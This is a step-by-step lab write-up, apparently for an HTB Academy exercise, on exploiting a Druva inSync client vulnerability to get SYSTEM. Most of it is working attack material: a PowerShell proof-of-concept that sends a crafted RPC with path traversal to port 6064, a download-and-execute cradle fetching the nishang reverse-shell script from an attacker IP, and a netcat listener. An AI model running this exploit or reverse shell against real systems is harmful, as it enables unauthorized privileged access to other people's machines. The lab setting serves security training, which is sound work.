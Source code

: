 ## Step-by-Step Guide to Exploit Druva inSync Vulnerability
### 📍 1. RDP into the Target Machine
Use the provided credentials to connect:

RDP to 10.129.253.88
Username: htb-student
Password: HTB_@cademy_stdnt!
```bash
xfreerdp /u:htb-student /p:'HTB_@cademy_stdnt!' /v:10.129.253.88
```
### 📍 2. Verify Druva inSync is Installed and Running
Open PowerShell and run:
```bash
get-service | ? {$_.DisplayName -like 'Druva*'}
Ensure Druva inSync Client Service is running.
```
Check port 6064 is open:
```bash
netstat -ano | findstr 6064
```
### 📍 3. Prepare the Exploit on Your Kali/Parrot Attack Box
a) Create Reverse Shell Script
Download the Invoke-PowerShellTcp.ps1 script:
```bash
wget https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1
```
Edit it and append this at the end:
```bash
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.31 (my local ip) -Port 9443
```
Make sure to replace 10.10.14.3 with your tun0 IP.

b) Start a Python Web Server
```bash
python3 -m http.server 8080
```
### 📍 4. Modify and Execute PoC PowerShell Script on Victim
a) PoC Script:
On the victim machine (RDP session), run:
```bash
$cmd = "powershell IEX(New-Object Net.Webclient).downloadString('http://10.10.14.31:8080/Invoke-PowerShellTcp.ps1')"

$ErrorActionPreference = "Stop"

$s = New-Object System.Net.Sockets.Socket(
    [System.Net.Sockets.AddressFamily]::InterNetwork,
    [System.Net.Sockets.SocketType]::Stream,
    [System.Net.Sockets.ProtocolType]::Tcp
)
$s.Connect("127.0.0.1", 6064)

$header = [System.Text.Encoding]::UTF8.GetBytes("inSync PHC RPCW[v0002]")
$rpcType = [System.Text.Encoding]::UTF8.GetBytes("$([char]0x0005)`0`0`0")
$command = [System.Text.Encoding]::Unicode.GetBytes("C:\ProgramData\Druva\inSync4\..\..\..\Windows\System32\cmd.exe /c $cmd")
$length = [System.BitConverter]::GetBytes($command.Length)

$s.Send($header)
$s.Send($rpcType)
$s.Send($length)
$s.Send($command)
```
⚠️ You may need to run Set-ExecutionPolicy Bypass -Scope Process before running this.

![image](https://github.com/user-attachments/assets/31b57bc8-688e-4131-9f7d-1464079bcf60)


### 📍 5. Start Netcat Listener on Your Attack Box
```bash
nc -lvnp 9443
```
Wait for the reverse shell. Once it connects, you should be NT AUTHORITY\SYSTEM.

![image](https://github.com/user-attachments/assets/ca899610-9248-4250-836f-abe5635ec316)


### 📍 6. Grab the Flag
In the SYSTEM shell:

powershell
Copy
Edit
cd "C:\Users\Administrator\Desktop\VulServices"
type flag.txt
✅ Submit the Flag
Once you copy the contents of flag.txt, paste it into the challenge submission box.
